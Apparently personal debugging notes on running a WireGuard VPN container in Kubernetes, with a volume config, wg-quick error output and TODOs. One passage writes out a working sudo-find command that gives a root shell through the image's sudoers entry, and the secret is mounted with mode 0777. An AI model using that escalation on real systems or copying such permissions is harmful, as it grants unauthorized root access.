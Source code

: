         - name: vpnconfig
          mountPath: "/etc/foo"
          subPath: vpnConfigfile
      volumes:
      - name: vpnconfig
        secret:
          defaultMode: 0777
          items:
          - key: vpnConfigfile
            path: vpnConfigfile
          secretName: wireguard

This is hilarious: https://github.com/k8s-at-home/container-images/blob/51cd7ce8c72ae9cae30edb0ba92da6486034ef5a/apps/wireguard/build/sudoers_kah#L14. Haxors:

    $ k exec -it jfly-test -- bash
    $ sudo /usr/bin/find /etc/wireguard -type f -printf "%f\n" -exec bash \;

And now I'm root, lol

Trying to get this command to pass:

    $ k exec -it jfly-test -- bash
    kah@jfly-test:/tmp$ sudo /usr/bin/wg-quick up wg0
    [#] ip link add wg0 type wireguard
    [#] wg setconf wg0 /dev/fd/63
    [#] ip -4 address add 10.67.182.177/32 dev wg0
    [#] ip -6 address add fc00:bbbb:bbbb:bb01::4:b6b0/128 dev wg0
    [#] ip link set mtu 1370 up dev wg0
    [#] resolvconf -a wg0 -m 0 -x
    [#] wg set wg0 fwmark 51820
    [#] ip -6 route add ::/0 dev wg0 table 51820
    [#] ip -6 rule add not fwmark 51820 table 51820
    [#] ip -6 rule add table main suppress_prefixlength 0
    [#] ip6tables-restore -n
    ip6tables-restore v1.8.4 (legacy): ip6tables-restore: unable to initialize table 'raw'

    Error occurred at line: 1
    Try `ip6tables-restore -h' or 'ip6tables-restore --help' for more information.
    [#] resolvconf -d wg0 -f
    [#] ip -6 rule delete table 51820
    [#] ip -6 rule delete table main suppress_prefixlength 0
    [#] ip link delete dev wg0
    kah@jfly-test:/tmp$ echo $?
    2

TODO: play with backends?

    $ k run -it jfly-test --image=ghcr.io/k8s-at-home/wireguard:v1.0.20210914 --command=true -- bash
    $ k exec -it jfly-test -- bash
    IPTABLES_BACKEND=nft /entrypoint.sh   # this hung, but seemed to do what i want?


# 2022-04-16 10:46 -0700: port forwarding now

uhhhh, nice grep? that's not gonna do exactly what you want... https://github.com/k8s-at-home/pod-gateway/blob/ac6ade8ad89db937ee1bd7d99217d108ce1f20f0/bin/client_init.sh#L40
